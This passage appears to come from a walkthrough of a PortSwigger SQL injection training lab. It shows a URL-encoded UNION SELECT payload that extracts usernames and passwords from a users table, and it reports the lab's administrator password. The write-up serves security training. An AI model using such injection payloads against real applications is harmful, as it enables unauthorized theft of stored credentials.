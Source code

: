 ![column names](/docs/assets/images/portswigger/sqli/examinedb/examinedb19.png)

With the column names I simply need to query them `FROM` the `users_gbcwql` table. 

`'+UNION+SELECT+username_xcjdpi,+password_ixmxrm+FROM+users_gbcwql--` 

This query returns several passwords including the one for user `administrator:i7i0f48ss6jyd28mb5j7` 
